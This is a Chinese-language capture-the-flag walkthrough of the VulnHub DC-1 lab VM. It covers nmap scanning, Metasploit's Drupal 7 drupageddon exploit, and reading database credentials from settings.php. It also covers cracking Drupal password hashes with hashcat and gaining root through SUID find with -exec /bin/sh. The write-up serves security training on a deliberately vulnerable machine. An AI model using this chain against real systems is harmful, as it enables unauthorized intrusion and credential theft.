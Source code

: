# DC 1

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-1,292/

## 知识点

## 信息收集

1.IP探测
```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 192.168.2.0/24 # IP探测 扫描本地C段的网络端口信息
```
![image](./img/vulnhub-dc1-1.png)

2.扫描目标全端口

```bash
nmap -T5 -A -v -p- 192.168.2.22
nmap 192.168.2.22
```

![image](./img/vulnhub-dc1-2.png)

可以扫出 22 80 111三个端口

## 漏洞利用

访问80端口发现服务为drupal 7

```
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.2.22
run
```

![image](./img/vulnhub-dc1-3.png)

利用成功弹回meterpreter会话,然后cmd shell下
```
shell
```

![image](./img/vulnhub-dc1-4.png)


getshell后第一件事是使用python命令获取一个正常的tty,否则有些命令可能无法执行。

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### 0x01-flag1

目前权限是www-data,读取flag1.txt,估摸着是权限不够，只读取到一个flag1.txt,读取flag1.txt
```bash
find / -name flag*
cat flag1.txt
```

![image](./img/vulnhub-dc1-5.png)
![image](./img/vulnhub-dc1-6.png)

提示CMS的配置文件有东西

### 0x02-flag2

google搜索drupal数据库配置文件(配置文件不存在，所以搜的数据库文件)

```bash
find /var -name settings.php
cat /var/www/sites/default/settings.php
```

![image](./img/vulnhub-dc1-7.png)

可以看到flag2的内容以及mysql的数据库账号密码，尝试登录数据库

### 0x03-flag3

```bash
mysql -udbuser -pR0ck3t
use drupaldb
show tables
```

![image](./img/vulnhub-dc1-8.png)

尝试读取users表

```
select * from users;
select name,pass from users;
```


![image](./img/vulnhub-dc1-9.png)


接着用hashcat爆破跑密码的hash的明文，需要先知道drupal的hash id

```bash
hashcat --help | grep "Drupal"  # 获得7900
```

hash保存源文件
```bash
echo "\$S\$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR" > source.txt
echo "\$S\$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg" >> source.txt
```

接着爆破需要密码表，这里我用的我团队的字典项目
- https://github.com/ffffffff0x/AboutSecurity/tree/master/Dic/Auth/password
```
hashcat -m 7900 -a 0 source.txt pass01.txt

-m 指定要破解的 hash 类型，如果不指定类型，则默认是 MD5
-a 指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
source.txt 你要爆破的 hash 列表
pass01.txt 你的密码表
```

kali虚拟机跑不起来，问了朋友说是虚拟机显卡问题，在我自己Windows跑了下没问题。

![image](./img/vulnhub-dc1-10.png)

可以看到分别跑出密码为:53cr3t和Mypassword,第一个拿去登录网站admin/53cr3t,在dashborad发现flag3

![image](./img/vulnhub-dc1-11.png)

翻译就是：特殊权限将有助于查找密码 - 但您需要 -exec 该命令才能确定如何获取隐藏中的内容

### 0x04-flag4

```bash
cat /etc/passwd
```

![image](./img/vulnhub-dc1-12.png)

发现flag4用户，读取
```bash
cat /home/flag4/flag4.txt
```

```
Can you use this same method to find or access the flag in root?
Probably. But perhaps it's not that easy.  Or maybe it is?
```
提示需要提权

### 0x05-flag5

考点：find的suid提权

```bash
find / -perm -u=s -type f 2>/dev/null

两种方法：
find . -exec /bin/sh \;  # 直接提权
find flag4.txt -exec "/bin/sh" \; 
ls /root
cat /root/thefinalflag.txt
```

![image](./img/vulnhub-dc1-13.png)
![image](./img/vulnhub-dc1-14.png)

提权成功，得到flag5
## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC1-WalkThrough.md
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/kh0cna